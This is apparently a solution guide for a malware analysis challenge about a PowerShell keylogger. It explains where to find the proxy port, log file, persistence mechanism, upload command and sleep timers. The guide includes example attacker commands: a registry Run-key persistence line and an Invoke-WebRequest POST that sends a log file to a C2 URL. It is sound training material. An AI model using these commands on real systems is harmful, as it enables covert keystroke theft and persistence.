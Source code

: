 # PowerShell Keylogger 

## Challenge Description 

<img width="422" height="412" alt="image" src="https://github.com/user-attachments/assets/5ad9f4db-1a28-4b17-82d3-a4e3b3bd7d4c" />

<img width="1173" height="495" alt="image" src="https://github.com/user-attachments/assets/3dce506a-d216-4877-97d6-3c8487af15ec" />

##  Solution and Analysis 

This guide provides a structured approach to analyzing the malware script and finding the answers to the provided questions. Each section details the methodology for locating the relevant information within the code.

---

### Question 1: What is the proxy port used by the script?

*   **Methodology:** Configuration settings like IP addresses, ports, or domains are often declared as variables at the beginning of a script for easy modification. Look for a variable assignment that clearly defines a port number for a proxy connection.
*   **Location:** As indicated, check near **line 5**.
*   **Expected Answer:** A numerical value (e.g., `8080`, `4444`) assigned to a variable like `$proxyPort` or `PROXY_PORT`.

---

### Question 2: What function/method is used for starting keylogging?

*   **Methodology:** The script will have a specific function or method call that initiates the keylogging thread or loop. Search for function definitions or calls with names related to logging, capturing keys, or starting a hook.
*   **Location:** Check the code around **line 81**.
*   **Expected Answer:** The name of the function or method being invoked, such as `Start-Keylogger`, `begin_logging()`, or a similar identifier.

---

### Question 3: What is the name of the file used by the script to store the keylog data?

*   **Methodology:** Keystrokes are typically logged to a temporary file on the victim's machine before being exfiltrated. Find the part of the code that handles file I/O (writing to a file) and identify the variable holding the filename.
*   **Location:** Examine the logic near **line 134**.
*   **Expected Answer:** A filename string defined in the code, for example, `"log.txt"`, `"%TEMP%\dat.tmp"`, or `"keystrokes.log"`.

---

### Question 4: What command is used by the script to achieve persistence?

*   **Methodology:** Persistence allows malware to survive a system reboot. Common techniques in Windows include creating a Run key in the registry, a scheduled task, or placing a file in the Startup folder. Look for commands that interact with the Windows Registry (`reg add`, `Set-ItemProperty`) or the Task Scheduler (`schtasks`).
*   **Location:** The persistence mechanism can be found near **line 245**.
*   **Expected Answer:** The full command line used to establish persistence, such as `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "..."`.

---

### Question 5: What is the command used by the script to upload data?

*   **Methodology:** Data exfiltration is the process of sending collected data (like keylogs) to a command-and-control (C2) server. Look for functions or commands related to making network requests, such as `Invoke-WebRequest`, `Start-BitsTransfer`, or methods from a networking library.
*   **Location:** The data upload logic is located around **line 215**.
*   **Expected Answer:** The function or command used for the network transfer, like `Invoke-WebRequest -Uri $c2_url -Method POST -InFile $log_file`.

---

### Question 6: What is the regex used by the script to filter IP addresses?

*   **Methodology:** To find a specific pattern in text, scripts use Regular Expressions (Regex). Search the code for a string that matches the typical format of an IP address regex pattern. Common indicators include `\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}` or keywords like `-match`, `re.compile`, or `Regex`.
*   **Location:** This may not have a fixed line number. Search the entire script for patterns resembling an IP address format.
*   **Expected Answer:** The regex pattern string itself, for example: `'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b'`.

---

### Question 7 & 9: What is the DLL imported by the script to call keylogging APIs?

*   **Methodology:** High-level scripts (like PowerShell or Python) often need to call low-level Windows API functions to perform actions like keylogging. These functions are located in system DLLs. Look for code that imports or loads a DLL, particularly one related to user input. The `user32.dll` is the most common for this purpose, as it contains functions like `GetAsyncKeyState` and `GetForegroundWindow`.
*   **Location:** The DLL import statement can be found around **line 99**.
*   **Expected Answer:** The name of the DLL file, which is most likely `"user32.dll"`.

---

### Question 8: How many seconds does the script wait before re-establishing a connection?

*   **Methodology:** This refers to the standard delay or "sleep" interval within the main communication loop of the malware. This is done to reduce network noise and CPU usage. Look for a `Start-Sleep`, `sleep()`, or `Task.Delay` command inside the primary loop that communicates with the C2 server.
*   **Location:** This timer is set near **line 86**.
*   **Expected Answer:** A numerical value representing the sleep time in seconds (e.g., `60`, `300`).

---

### Question 10: How many seconds does the script wait *after failing* to establish a connection?

*   **Methodology:** This is different from the standard loop timer. It's an error-handling feature. When a connection to the C2 server fails, the script will wait a specific amount of time before trying again. Look for a `Start-Sleep` or equivalent command inside a `catch` or `except` block that handles network connection errors.
*   **Location:** This specific error-handling timer is located at **line 276**.
*   **Expected Answer:** A numerical value representing the sleep time in seconds after a connection failure.
